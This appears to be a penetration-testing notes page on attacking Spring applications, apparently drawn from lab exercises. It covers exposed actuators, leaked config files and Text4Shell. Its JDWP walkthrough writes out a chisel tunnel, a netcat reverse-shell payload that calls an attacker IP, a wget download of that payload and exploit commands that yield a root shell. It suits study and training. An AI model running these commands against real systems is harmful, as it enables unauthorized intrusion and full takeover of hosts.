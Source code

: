 # Spring

## 101

<table><thead><tr><th width="146" align="right">Technology</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://spring.io/projects/spring-framework">Spring</a></td><td>A framework for building Java applications.</td></tr><tr><td align="right"><a href="https://spring.io/projects/spring-boot">Spring Boot</a></td><td>A Spring extension that simplifies the configuration of Spring apps by providing defaults and conventions to minimize the boilerplate code required.</td></tr></tbody></table>

## Recon

The default error page (`/error`) for Spring applications:

<figure><img src="../../.gitbook/assets/web_framework_spring_whitelabel.png" alt=""><figcaption></figcaption></figure>

## Attacks

### Actuators

Spring Boot's [actuators](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in monitoring and debugging features and its endpoints should not be public facing. For instance, [`/actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) lists active HTTP Spring session&#x73;_._ For an example of leveraging an actuator for **session hijacking** see [Cozyhosting](../../boxes/easy/cozyhosting.md#leveraging-actuator).

### Config Files

[Spring applications](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) will load properties from the [`application.properties`](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) file which is typically under the webroot (`/`) or the `config` subdirectory. This file can contain sensitive information, such as credentials and database information. We can use Burp Intruder to enumerate this file.

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course, more specifically, the Asio lab._

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_2.png" alt=""><figcaption></figcaption></figure>

### Apache Commons

**Apache Commons Text** is a part of the larger Apache Commons project, which provides reusable Java components. Specifically, Commons Text offers utility classes for advanced string manipulation. While not part of the Spring Framework itself, it is commonly included in Spring-based applications due to its useful text processing features.

Apache Commons Text from `1.5` up to `1.9` are vulnerable to **Text4Shell** ([CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)). There is a [PoC](https://github.com/chaudharyarjun/text4shell-exploit) available written for `POST` requests and using the `data` parameter. A [modified version of the PoC](https://github.com/CSpanias/text4shell-exploit) is also available allowing for more flexibility.

### JDWP

**Java Debug Wire Protocol (JDWP)** is a protocol used by the Java Platform Debugger Architecture (JPDA) to enable communication between a debugger and a Java application. It is typically used during development to inspect and control Java programs. While JDWP is not specific to Spring, it can be exposed in Spring-based applications—especially in misconfigured environments or containerized deployments. If left open in production (commonly on port `5005`), JDWP can be exploited by attackers to execute arbitrary code, inspect memory, or gain full control over the JVM.

The identification process of a JDWP process goes like this:

1. We’re in a **Java web app**:

```bash
# TCP port scan reveals the use of the Spring framework
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```

2. We find a **local open port** with no response from manual probbing:

```bash
# Unknown local port
$ netstat -aln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
```

3. There’s a **Java process running** as `root`:

```bash
$ lsof -i :8000
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java      851 root   15u  IPv4 151467      0t0  TCP localhost:8000 (LISTEN)
```

4. We suspect this might be **debug-related**:

{% code overflow="wrap" %}
```bash
$ ps aux | grep 8000
root         851  0.0  3.9 2537196 79896 ?       Ssl  06:06   0:06 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

The above pattern should trigger the “_Maybe it’s JDWP_” instinct.&#x20;

There is a [PoC](https://github.com/IOActive/jdwp-shellifier) available but we might have to dig a bit more in order to successfully use it. This PoC waits for an event to be triggered in order to achieve RCE; we will have to enumerate the port from which we can do that.

```bash
$ ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
...
# This is our port forward
tcp   LISTEN 0      1  127.0.0.1:8000      0.0.0.0:*    users:(("java",pid=851,fd=15))
# This is unknown, thus, potentially the JDWP port!
tcp   LISTEN 0      50         *:5000            *:*    users:(("java",pid=851,fd=10))
# This is the web application
tcp   LISTEN 0      100        *:8080            *:*    users:(("java",pid=834,fd=11))
```

We can then check what the Java process is doing:

{% code overflow="wrap" %}
```bash
$ ps aux | grep java
dev          834  0.7 27.4 2613260 555380 ?      Ssl  06:06   3:53 java -jar /opt/dev/api.jar
root         851  0.0  3.8 2537196 77344 ?       Ssl  06:06   0:07 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

Enumerating the outputted paths confirms that the port `5000` is what we are searching for:

```bash
$ ls -la /opt/dev
...
-rw-r--r-- 1 root root 17383754 Nov  7  2022 api.jar

$ cat App.java | grep 5000
            ServerSocket echod = new ServerSocket(5000);
```

Now we can use the PoC and gain a `root` shell on the target:

```bash
# Launch server on the attacking host
sudo chisel server -p 8000 --reverse

# Port forward the target port from the target
./chisel client 192.168.45.216:8000 R:1234:127.0.0.1:8000
```

{% code overflow="wrap" %}
```bash
# Creating a reverse shell payload
$ cat revshell.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.216 80 >/tmp/f

# Upload the file via the JDWP vulnerability
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.216:8888/revshell.sh -O /tmp/revshell.sh'
...
[+] Waiting for an event on 'java.net.ServerSocket.accept'

# Trigger the event
$ curl http://berlin:5000
curl: (1) Received HTTP/0.9 when not allowed

# Repeat the process
# Assign executable permissions to the uploaded file and trigger the event
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'chmod 700 /tmp/revshell.sh'
$ curl http://berlin:5000

# Execute the file and trigger the event to receive the reverse shell
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'bash /tmp/revshell.sh'
$ curl http://berlin:5000
```
{% endcode %}

